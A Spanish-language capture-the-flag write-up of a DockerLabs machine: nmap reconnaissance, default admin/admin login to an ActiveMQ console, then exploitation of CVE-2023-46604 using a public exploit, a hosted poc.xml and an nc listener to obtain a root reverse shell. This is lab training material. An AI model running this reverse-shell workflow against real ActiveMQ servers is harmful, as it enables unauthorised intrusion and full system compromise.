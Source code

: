 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ad7345a4-796d-4164-af6a-0e071b99319c)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **80/tcp (HTTP):** syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
2. **443/tcp (SSL/HTTP):** syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
3. **1883/tcp (MQTT):** syn-ack ttl 64
4. **5672/tcp (AMQP?):** syn-ack ttl 64
5. **8161/tcp (HTTP):** syn-ack ttl 64 Jetty 9.4.39.v20210325
6. **33833/tcp (TCPWRAPPED):** --
7. **61613/tcp (STOMP):** syn-ack ttl 64 Apache ActiveMQ
8. **61614/tcp (HTTP):** syn-ack ttl 64 Jetty 9.4.39.v20210325
9. **61616/tcp (APACHEMQ):** syn-ack ttl 64 ActiveMQ OpenWire transport

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Y se encontró la pagina por defecto de Apache2 Debian.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1a6926a2-5913-4843-936c-975dd57e593c)

# Fase 2- Exploración

#### 8161
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/482f72b7-db40-4fc3-a7c3-9373002801a5)
Al ir a ver lo que había en el puerto `8161 HTTP`, Nos encontramos con un login.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b0965c8a-d0fa-42a3-ad63-12a1928f1af2)
Probamos las credenciales de `admin` `admin` y estamos dentro! Es un apache `ActiveMQ`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ca21c347-c058-4c33-8e4f-e7cbc1e1862a)
Si vamos al apartado de `Manage ActiveMQ broker` vemos que la versión es la `5.15.15`.

# Fase 3- Explotación

#### 5.15.15
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2a833290-5e91-4d52-bf56-ffc9b888af9a)
Buscando algún exploit o algo encontré este repositorio en GitHub: https://github.com/evkl1d/CVE-2023-46604

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5868ee88-caba-4292-a0a5-bb531182e592)
Al ver lo que envía el exploit vemos que es una reverse shell, así que cambiaremos la ip a la nuestra y el puerto. 

Voy a detallar los comandos para obtener la reverse shell.
```python
Atacante > python3 -m http.server 80
Atacante > nc -nlvp 443
Atacante > sudo python exploit.py -i 172.17.0.2 -p 61616 -u http://172.17.0.1/poc.xml
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4f8b3591-af44-4b3c-b2fa-f7ba5a32f6f3)
Y estamos dentro! Como root!.


